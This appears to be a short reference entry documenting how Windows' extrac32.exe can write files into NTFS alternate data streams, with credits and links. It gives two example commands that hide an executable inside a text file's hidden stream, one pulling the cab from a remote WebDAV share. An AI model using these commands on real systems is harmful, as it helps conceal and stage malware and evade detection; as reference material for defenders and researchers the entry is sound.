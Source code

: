 ## Extrac32.exe

* Functions: Add ADS

```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe    

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe    
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\extrac32.exe
c:\windows\sysWOW64\extrac32.exe
```

Notes:



 
